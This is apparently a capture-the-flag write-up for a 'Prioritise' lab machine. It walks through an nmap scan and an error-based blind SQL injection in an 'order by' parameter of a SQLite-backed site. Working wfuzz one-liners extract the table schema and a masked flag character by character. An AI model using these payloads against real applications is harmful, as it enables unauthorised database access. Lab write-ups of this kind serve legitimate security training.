






## Scanning
We scan the open ports with the **nmap** tool with scripts and software versions.

```
> nmap -sVC -p- --min-rate 5000 prioritise.thm -Pn -n -oN nmap-prioritise.thm
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-14 21:15 CEST
WARNING: Service 10.10.247.170:80 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for prioritise.thm (10.10.247.170)
Host is up (0.055s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 51fe13747bbc526a883d21d1b3bf13ad (RSA)
|   256 73fef7fdedf492bde2997188f855b28f (ECDSA)
|_  256 f848693d7f199f03166337369f84a87a (ED25519)
80/tcp open  rtsp
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 5082
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <meta
|     name="viewport"
|     content="width=device-width, initial-scale=1, shrink-to-fit=no"
|     <link
|     rel="stylesheet"
|     href="../static/css/bootstrap.min.css"
|     crossorigin="anonymous"
|     <link
|     rel="stylesheet"
|     href="../static/css/font-awesome.min.css"
|     crossorigin="anonymous"
|     <link
|     rel="stylesheet"
|     href="../static/css/bootstrap-datepicker.min.css"
|     crossorigin="anonymous"
|     <title>Prioritise</title>
|     </head>
|     <body>
|     <!-- Navigation -->
|     <nav class="navbar navbar-expand-md navbar-dark bg-dark">
|     <div class="container">
|     class="navbar-brand" href="/"><span class="">Prioritise</span></a>
|     <button
|     class="na
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest: 
|     RTSP/1.0 200 OK
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|_    Content-Length: 0
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
|_http-title: Prioritise
```

## Enumeration
We access the website, no credentials are required and we can create and order items.



Here the filter is shown, there are not many objects on the website, so the *SQL Injection* exploit has to be around here.



After several tests (which were not few), we found a possible exploitation based on error and from the parameter "*order*" (Think of this 'order', as an "order by <item>").



I tried increasing the *id* (*e.g. 4*), but when I set *5*, the server returned an error. So here I could realize that if it existed, the server did not return a 500 error.



Once we already had the possible exploitation path, the next step was to think of a way to know the backend, since tools like **SQLMap** didn't work (or at least I couldn't make it work).
So I thought, it would still have to return a *500 error* if it didn't exist and it didn't in the case of the next payload, in which I was able to find out that it was a *SQLite*:



## Exploitation
So I searched for tutorials and information about possible *SQL injection* attacks based on "*order by*", I found the following from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#boolean---extract-info-order-by)

Once I had the right payload, I set up a one liner with bash and the **wfuzz** tool, I generated a dictionary with letters (upper and lower case) and numbers, I also set up a loop to iterate the positions and finally I filtered those answers with code 404 or 500, so I assumed that all 200 and in the right order would be the correct ones... And so it was!

```bash
> for i in {1..40}; do wfuzz -c --hc 404,500 -w alphanums.txt "http://prioritise.thm/?order=(CASE+WHEN+(SELECT+hex(substr(sql,$i,1))+FROM+sqlite_master+WHERE+type%3d'table'+and+tbl_name+NOT+like+'sqlite_%25'+limit+1+offset+0)+%3d+hex('FUZZ')+THEN+id+ELSE+load_extension(0)+END)" 2>/dev/null | grep -i 200 && echo ""; done
000000029:   200        187 L    273 W      5082 Ch     "C"                        
000000044:   200        187 L    273 W      5082 Ch     "R"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000027:   200        187 L    273 W      5082 Ch     "A"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000027:   200        187 L    273 W      5082 Ch     "A"                        
000000028:   200        187 L    273 W      5082 Ch     "B"                        
000000038:   200        187 L    273 W      5082 Ch     "L"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000020:   200        187 L    273 W      5082 Ch     "t"                        
000000015:   200        187 L    273 W      5082 Ch     "o"                        
000000004:   200        187 L    273 W      5082 Ch     "d"                        
000000015:   200        187 L    273 W      5082 Ch     "o"                        
000000019:   200        187 L    273 W      5082 Ch     "s"                        
000000009:   200        187 L    273 W      5082 Ch     "i"                        
000000004:   200        187 L    273 W      5082 Ch     "d"                        
000000035:   200        187 L    273 W      5082 Ch     "I"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000033:   200        187 L    273 W      5082 Ch     "G"                        
000000031:   200        187 L    273 W      5082 Ch     "E"                        
000000044:   200        187 L    273 W      5082 Ch     "R"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000041:   200        187 L    273 W      5082 Ch     "O"                        
000000046:   200        187 L    273 W      5082 Ch     "T"                        
000000040:   200        187 L    273 W      5082 Ch     "N"                        
000000047:   200        187 L    273 W      5082 Ch     "U"                        
000000038:   200        187 L    273 W      5082 Ch     "L"
```
In the previous example, I increased the number of positions, as I was getting all the rows on the same line, so I had to be patient to get the tables and rows numbered correctly.

Finally, I assembled the last one liner to get the flag and complete the challenge:

#### Final - Obtaining the flag
```bash
> for i in {1..40}; do wfuzz -c --hc 404,500 -w alphanums.txt "http://prioritise.thm/?order=(CASE%20WHEN%20(SELECT%20hex(substr(flag,$i,1))%20FROM%20flag)%20=%20hex('FUZZ')%20THEN%20id%20ELSE%20load_extension(0)%20END)" 2>/dev/null | grep -i 200 && echo ""; done
000000006:   200        187 L    273 W      5082 Ch     "f"                        
000000012:   200        187 L    273 W      5082 Ch     "l"                        
000000001:   200        187 L    273 W      5082 Ch     "a"                        
000000007:   200        187 L    273 W      5082 Ch     "g"                        
000000059:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000061:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000056:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000058:   200        187 L    273 W      5082 Ch     "*"                        
000000062:   200        187 L    273 W      5082 Ch     "*"                        
000000057:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000056:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000060:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000059:   200        187 L    273 W      5082 Ch     "*"                        
000000055:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000061:   200        187 L    273 W      5082 Ch     "*"                        
000000006:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"                        
000000003:   200        187 L    273 W      5082 Ch     "*"                        
000000004:   200        187 L    273 W      5082 Ch     "*"
```

Mission completed!!!


